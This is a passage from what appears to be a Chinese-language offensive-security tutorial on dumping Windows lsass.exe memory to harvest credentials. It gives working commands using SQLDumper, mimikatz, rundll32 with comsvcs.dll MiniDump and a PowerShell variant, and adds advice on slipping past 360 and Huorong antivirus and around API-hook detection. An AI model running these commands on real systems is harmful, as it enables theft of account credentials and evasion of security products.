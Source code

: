 360不管签名的时间戳是不是有效都会通杀`Procdump.exe`，因此这种方式还是比较局限的

**2.任务管理器**

打开任务管理器，选中目标进程，右键菜单中点击“创建转储文件”，文件保存为%temp%\&lt;进程名&gt;.dmp。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0119214153f8b411d8.png)

但是这种方式就相比更加鸡肋

**3.SQLDumper**

`SQLDumper.exe`包含在Microsoft SQL和Office中，可生成完整转储文件。

```
tasklist /svc | findstr lsass.exe  查看lsass.exe 的PID号
Sqldumper.exe ProcessID 0 0x01100  导出mdmp文件
```

实战中下把生成的mdmp文件下载到本地，使用相同的操作系统打开。

```
mimikatz.exe "sekurlsa::minidump SQLDmpr0001.mdmp" "sekurlsa::logonPasswords full" exit
```

文件是安全的，火绒和360都不会认为是可以或者是恶意程序，但是在转储该`lsass.exe`进程时会出现

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01339dcdae36c012b7.png)

**3.Comsvcs.dll**

每个Windows系统中都可以找到该文件，可以使用Rundll32执行其导出函数MiniDump实现进程的完全转储。

该文件是一个白名单文件，我们主要是利用了`Comsvsc.dll`中的导出函数API`MiniDump`来实现转储`lsass.exe`的目的，注意同样是需要管理员权限:<br>
该文件位于`C:\windows\system32\comsvcs.dll`<br>
我们使用如下方式来调用MiniDump实现转储lsass.exe进程:

```
rundll32 C:\windows\system32\comsvcs.dll MiniDump "&lt;lsass.exe pid&gt; dump.bin full"
```

[![](https://p4.ssl.qhimg.com/t01d5eb6d8348dc3e9e.png)](https://p4.ssl.qhimg.com/t01d5eb6d8348dc3e9e.png)

该行为太过于敏感，在原理上都是通过API`MiniDumpWriteDump()`获得进程的dmp文件

而某些安全产品已经开始拦截这种行为，拦截的方法如下：

**通过用户模式下的API hook，使用跳转(JMP)命令将NtReadVirtualMemory()的前5个字节修改为指向另一个内存地址**

因此我们可以不妨自己实现一个该DLL的功能，主要为`MiniDump`的功能来绕过行为检测<br>
在`comsvcs.dll`找到了我们需要使用的`MiniDumpw`函数:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0116f2ea4e729b5715.png)

> <p>这里还需要解释为什么有时候在cmd下无法使用comsvcs.dll的MiniDump来转储内存文件，因为在dump指定进程内存文件时，需要开启`SeDebugPrivilege权限`，而在cmd中是默认没有开启该权限的<br>[![](https://p2.ssl.qhimg.com/t0166556e8b10b2cb1e.png)](https://p2.ssl.qhimg.com/t0166556e8b10b2cb1e.png)<br>
而在PS中是默认开启的选项:<br>[![](https://p0.ssl.qhimg.com/t01fc500cbd9373c0b6.png)](https://p0.ssl.qhimg.com/t01fc500cbd9373c0b6.png)<br>
因此在实战中可以考虑多使用:</p>
<pre><code class="hljs css">powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump 508 C:\86189\lsass.dmp full"
</code></pre>
已达到转储lsass.exe的目的

